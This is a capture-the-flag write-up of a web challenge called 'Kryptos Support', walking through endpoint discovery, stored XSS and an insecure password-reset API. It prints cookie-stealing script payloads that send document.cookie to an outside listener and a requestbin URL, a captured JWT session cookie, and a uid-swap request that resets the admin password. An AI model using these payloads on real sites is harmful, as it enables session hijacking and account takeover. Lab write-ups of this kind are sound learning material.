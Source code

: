 ```yaml
---
layout: default
title: Kryptos Support
---
```


# [Cyber Apocalypse](../index.md) - Web - Kryptos Support
*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

This challenge is a support portal for some kind of vault. The landing page allows the user to enter text in a box and submit this as a ticket for an admin to review. There was no authentication on this page. 

There was a link to the **backend**, which led to a login page.

The login form was not susceptible to a simple SQL injection, so I looked elsewhere.

Using **gobuster** to do a quick scan of the website for different pages and/or API endpoints. I found the following:

```
/admin
/settings
/tickets
/logout
/login
/static
```
`/admin`, `/settings`, and `/tickets` redirected to the login page.

The ticket submit form worked, and when submitting a ticket the page displayed a message indicating that support staff would look at it. 

I noted that the ticket data was submitted to `/api/tickets/add`, so I did some exploring looking for other API endpoints (just manually with Firefox) and did not find much. The login form used `/api/login`, but I was not able to view tickets or logins.

The ticket form did not appear to sanitize it's input, so I decided to try stealing the support staff's cookies with a cross-site scripting attack. A quick google search gave me some example XSS cookie stealing code, which I modified for my own use.

I set up a simple web server on a VM with python, using the following commands:

```
mkdir emptyfolder
cd emptyfolder
python3 -m http.server 1337
```
Then I submitted this javascript code in a ticket, and waited for the response. 

```javscript
<script>var i=new Image;i.src="https://my-ip-address-was-here:1337/?"+document.cookie;</script>
```
The URL of the request contained the cookie information, so I was able to simply copy and paste this from my console window.

Later, I discovered [Requestbin](https://requestbin.io) which would have made this a bit easier, and wouldn't as easily reveal my own IP address.

```javscript
<script>var i=new Image;i.src="https://requestbin.io/10270d22/?"+document.cookie;</script>
```

The cookie data was:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE
```

I noted that the session value was a JWT that can be decoded - each section, separated by periods, is just base64 encoded.
```json
{"alg":"HS256","typ":"JWT"}
```
```json
{"username":"moderator","uid":100,"iat":1652628044}
```
*The last section is not legible, it's a signature for the above data*

I noted that the user was named `moderator` and had a `uid` of `100`.

The JWT's signature wouldn't be valid if I modified the uid or username, so I can't easily exploit those at this point.

In Firefox, I created a cookie named `session` with the value `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE`

In my exploration above, I had found `/tickets`, so with my new cookie I visited that page and was able to view the submitted tickets.

There were two tickets previously submitted which contained some numbers (`000083921` and `000076439`) which I noted for later (but never ended up using). The tickets did not contain names or usernames, so I was not able to get much info from them.

There was a **settings** link, which went to a page that allowed me to change the password of the currently logged in user. Trying this, I was able to reset the password of the **moderator** account. In a "real" engagement, this would make it pretty obvious that the system was compromised, considering the moderator user had just viewed my ticket and was presumably actively using the system, and would notice very quickly that their password had changed to something that they did not know. Luckily, the "moderator" user was just a script because this is just a challenge system, and wouldn't notice a thing.

Using Firefox developer tools, I noticed that changing the password sent a request to the api endpoint `/api/users/update` with the following payload:

```json
{
	"password" : "abc123",
	"uid" : "100"
}
```

Unlike the cookie, there is no cryptographic signature here, so I tried changing the `uid` value to `1`. I figured that in most cases, the admin account will be the first account in the database, so probably would have an ID of 1. I used [Insomnia](https://insomnia.rest/) to send this payload, but I later discovered that Firefox developer tools allow you to edit and re-submit the request, and I could have just used that.

```json
{
	"password" : "abc123",
	"uid" : "1"
}
```
The response from the API was "Password for admin changed successfully", which gave me the admin username.

The "moderator" account clearly had permissions to reset passwords, but the system allowed it to reset *any* user's password, including the admin. Some security probably should have been in place to prevent a user with password reset privileges from resetting passwords of anyone else at the same or higher security levels, or something like that.

Logging out of the moderator account, and into the admin account using `admin` and the password I set granted me access, and displayed the flag.